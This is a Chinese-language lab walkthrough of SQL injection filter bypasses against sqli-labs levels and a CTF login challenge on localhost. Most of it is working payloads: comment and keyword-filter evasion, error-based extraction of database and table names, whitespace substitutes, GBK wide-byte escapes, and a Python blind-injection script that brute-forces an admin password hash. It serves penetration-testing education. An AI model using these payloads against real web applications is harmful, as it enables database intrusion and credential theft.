# 绕过各种注入防御下面介绍几个绕过注入防御的知识：
# 绕过注释符过滤常见注释符有： # 、 %23 、 --+
Less-23 为例
http://127.0.0.1/sqli/Less-23/?id=1

做以下尝试：
1. http://127.0.0.1/sqli/Less-23/?id=1' 报错，syntax to use near ''1'' LIMIT 0,1' at line 1 2. http://127.0.0.1/sqli/Less-23/?id=1' %23 报错，syntax to use near '' LIMIT 0,1' at line 1 3. http://127.0.0.1/sqli/Less-23/?id=1' %23 a 报错，syntax to use near 'a' LIMIT 0,1' at line 1 4. http://127.0.0.1/sqli/Less-23/?id=1'" %23 a syntax to use near '" a' LIMIT 0,1' at line 1
根据第三、第四次的结果来看
1' %23 a —> a' LIMIT 0,1
1'" %23 a —> " a' LIMIT 0,1
共同的特性是输入的字母 a 保留，%23 被过滤
那 # 和 --+ 呢？
http://127.0.0.1/sqli/Less-23/?id=1'" # a 报错，syntax to use near '" ' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-23/?id=1'" --+ a 报错，syntax to use near '" a' LIMIT 0,1' at line 1
因此，有理由怀疑 —— 注释符被后台彻底过滤 。
我们来根据报错语句猜想一下后台语句：
select * from xxxx where id = '1' limit 0,1
# 绕过方式一我们可以尝试加一个 单引号 + 等号 + 单引号 ：
select * from xxxx where id = '1 '=' ' limit 0,1
'=' 即为我们的注入语句
http://127.0.0.1/sqli/Less-23/?id=1'=' Your Login name:Angelina Your Password:I-kill-you
成功查询，不报错。但是使用 '=' 的话，我们没地方可插入一些想要的查询语句
我们需要换一个思路
http://127.0.0.1/sqli/Less-23/?id=1' or 1 or ' Your Login name:Dumb Your Password:Dumb
那么可以使用 布尔注入 + 报错注入 结合，替换两个 or 中间的那个 1
http://127.0.0.1/sqli/Less-23/?id=1' or (select extractvalue(1,concat(0x7e,version(),0x7e))) or '

接下来就可以愉快地爆出数据库名、表、列、值等信息。
以爆出列名为例：
http://127.0.0.1/sqli/Less-23/?id=1' or (select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))) or '

# 绕过方式二其实，我们也可以通过闭合前后的单引号，中间使用 union 来做操作
注意 ：后面单引号引领着一个列，所以 union select 的包含的列需要把后面的单引号内容考虑进来
#两个列 http://127.0.0.1/sqli/Less-23/?id=1' union select 1, ' 报错，The used SELECT statements have a different number of columns #三个列 http://127.0.0.1/sqli/Less-23/?id=1' union select 1,2,' Your Login name:Dumb Your Password:Dumb
# 绕过 and/or 强过滤将 and/or 及其大小写，混合大小写（Or、oR 等）均替换成空
http://127.0.0.1/sqli/Less-25/?id=1' 报错，syntax to use near ''1'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-25/?id=1' %23 Your Login name:Dumb Your Password:Dumb http://127.0.0.1/sqli/Less-25/?id=1' order by 2 %23 报错，syntax to use near 'der by 2 #' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-25/?id=1' aa order by 2 %23 报错，syntax to use near 'aa der by 2 #' LIMIT 0,1' at line 1
可以发现 or 被强制过滤，即任何出现 or 的地方被强制替换成空
# 绕过方式使用 || 、 oorr 来替代 or，再使用布尔替换 + 报错注入构造查询：
http://127.0.0.1/sqli/Less-25/?id=-1' || (select extractvalue(1,concat(0x7e,version(),0x7e))) %23 http://127.0.0.1/sqli/Less-25/?id=1' oorr (select extractvalue(1,concat(0x7e,version(),0x7e))) %23

# 绕过空格字符Less-26 为例：
http://127.0.0.1/sqli/Less-26/?id=1' 报错，syntax to use near ''1'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-26/?id=1' %23 报错，syntax to use near ''1'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-26/?id=1' or 1 or ' 错，syntax to use near ''1'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-26/?id=1' || 1 || ' Your Login name:Dumb Your Password:Dumb
由此，可以构造：
http://127.0.0.1/sqli/Less-26/?id=1' || (select extractvalue(1,concat(0x7e,version(),0x7e))) || '

空格被过滤
# 绕过方式常见的空格替换方式有：
%09 TAB 键 (水平)%0a 新建一行%0c 新的一页%0d return 功能%0b TAB 键 (垂直)%a0 空格/**/ 也是一种替代空格方式
http://127.0.0.1/sqli/Less-26/?id=1' || (select%a0extractvalue(1,concat(0x7e,version(),0x7e))) || '

# 绕过一些对于 select、union 的限制http://127.0.0.1/sqli/Less-27/?id=1' syntax to use near ''1'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-27/?id=1' %23 syntax to use near ''1'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-27/?id=1' or 1 or ' %23 syntax to use near 'or1or'' LIMIT 0,1' at line 1
基于以上尝试，可以看出空格被过滤
http://127.0.0.1/sqli/Less-27/?id=1'%a0or%a01%a0or%a0' %23 Your Login name:Dumb Your Password:Dumb
那么可以有：
http://127.0.0.1/sqli/Less-27/?id=1'%a0order%a0by%a02' %23 报错，尝试用union select http://127.0.0.1/sqli/Less-27/?id=1' union select 1,' http://127.0.0.1/sqli/Less-27/?id=1'%a0union%a0select%a01,'
可以看出，union 和 select 被过滤
http://127.0.0.1/sqli/Less-27/?id=1'%a0"union%a0select%a01,'

# 绕过方式一大小写随机替换（可能需要多尝试几次）
http://127.0.0.1/sqli/Less-27/?id=1'%a0Union%a0seLEct%a01,2,' 报错，syntax to use near 'seLEct�1,2,'' LIMIT 0,1' at line 1 http://127.0.0.1/sqli/Less-27/?id=1'%a0UNion%a0seLEct%a01,2,' Your Login name:Dumb Your Password:Dumb http://127.0.0.1/sqli/Less-27/?id=1' UNion sEleCT 1,2,' http://127.0.0.1/sqli/Less-27/?id=1'%a0UNion%a0sEleCT%a01,2,' Your Login name:Dumb Your Password:Dumb

# 绕过方式二使用内联注释绕过：
http://127.0.0.1/sqli/Less-27/?id=1' /*!union*/ /*!select*/ 1,2,' http://127.0.0.1/sqli/Less-27/?id=1'%a0/*!union*/%a0/*!select*/%a01,2,'
# 绕过方式三使用双写、三写绕过（和绕过方式一一样，这个也需要多次尝试）：
#在union任意位置中插入union union--->un union ion (双写) #在select任意位置中插入select select --->se select lect(双写) ----> sese select lectlect(三写) http://127.0.0.1/sqli/Less-27/?id=1'%a0ununionion%a0seseselectlectlect%a01,2,'

# 宽字节注入MySQL 中，当数据库编码是 GBK 的时候，编码可以表示中文，两个字符代表一个汉字。
编码范围是：8140-FEFE
其中，GB2312 的编码范围是：B0A1-F7FE
Less-32 为例：
http://127.0.0.1/sqli/Less-32/?id=1 Your Login name:Dumb Your Password:Dumb http://127.0.0.1/sqli/Less-32/?id=1' Hint: The Query String you input is escaped as : 1\' The Query String you input in Hex becomes : 315c27 http://127.0.0.1/sqli/Less-32/?id=1'" Hint: The Query String you input is escaped as : 1\'\" The Query String you input in Hex becomes : 315c275c22
可以发现，我们的单引号在服务器后台被 \号 转义了。
# 绕过方式观察反斜杠的 hex 值发现是 5c，接下来我们根据 GBK 编码来做单引号逃逸。
815C 在 GBK 编码范围 8140-FEFE 中，因此我们在单引号前加一个 %81，令其与后台的反斜杠组成双字节被解析，从而释放出我们的单引号。
http://127.0.0.1/sqli/Less-32/?id=1%81' %23 Your Login name:Dumb Your Password:Dumb Hint: The Query String you input is escaped as : 1�\' #
同理，在 GBK2312 里行得通吗？答案是肯定的
B15C 在 GB2312 的编码范围 B0A1-F7FE 中，那么：
http://127.0.0.1/sqli/Less-32/?id=1%B1' %23 Your Login name:Dumb Your Password:Dumb Hint: The Query String you input is escaped as : 1�\' #
因此就可以：
http://127.0.0.1/sqli/Less-32/?id=1%B1' order by 3%23 http://127.0.0.1/sqli/Less-32/?id=1%B1' order by 4%23-----报错 http://127.0.0.1/sqli/Less-32/?id=-1%B1' union select 1,2,version()%23 Your Login name:2 Your Password:5.1.73-community
# 过滤函数绕过以 SQLC-sql9 为例
输入 admin、admin 结果报错

直接上 BurpSuit，抓包送入 Repeater

输入单引号，报错
uname=admin'&passwd=admin

我们直接送入 Intruder 进行特殊字符爆破，看看都过滤了哪些字符

将特殊字符 load 进来

可以看到过滤了空格，逗号等字符【由于环境不一样可能每个人的结果不同，因此不贴图，按照没有空格和逗号展开绕过】
既然没有空格，我们可以使用 小括号 或者 %a0 代替，这里选择 小括号 。
既然没有逗号，那么很多函数我们就用不了了，比如 substr 、 extractvalue 等等。
但是，substr 还有个特性就是 substr (str from n) 表示从第 n 位到结尾截取字符
OK，空格和逗号的问题都解决了。剩下就是搞定注入点 ！！！！

我们看到 返回包里有个Hint ，由于格式是 大小写 + 数字 + == ，我们解码 Base64

$query="SELECT * FROM admin WHERE uname='".$uname."'";if ($row['passwd']===$passwd){$_SESSION['flag'] = 1;
# 绕过方式也就是说，uname 是用单引号包裹 ，所以我们可以用单引号去闭合 ——
使用 ' = 1 = ' 绕过：因为 uname='' = 1 为假， 假 = '' 为真
#原理核心，和 ' or 1 or ' 异曲同工 uname='= (1) ='&passwd=admin #那么就可以有如下注入点： uname='= (select(1)from(admin)where(length(passwd)=32)) ='&passwd=admin

确定了长度，尝试考虑使用脚本爆破
关键核心语句为：
uname= '= (select(1)from(admin)where(substr((passwd)from(32))='f')) =' #其中，32需要遍历，'f'也需要遍历 #注意，由于使用了substr + from的方式，因此需要"从后向前"盲推字符
附上脚本：
注意 ：post 请求中，如果参数是 "uname=xxxx & passwd=yyyy" 这样的，我们需要在 python 脚本中建立一个字典去匹配。
import requestskey = 'password error!!@_@' words = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789' url = "http://127.0.0.1/SQLC/sql-9/login.php" payload = {"uname" : "" , "passwd" :"" } def target_flag (): flag = '' temp = '' for i in range (1 ,33 ): for j in words: temp = temp[::-1 ] temp = temp + j temp = temp[::-1 ] payload['uname' ] = "'= (select(1)from(admin)where(substr((passwd)from({}))='{}')) ='" .format ((33 -i),temp) payload['passwd' ] = "admin" response = requests.post(url, data = payload) if key in response.text: flag = temp print ("++++" ,flag) break temp = flag print ("the flag is:" ,flag) target_flag()
格式为 小写 + 数字 ，属于 md5 加密格式
那么就有 www.cmd5.com
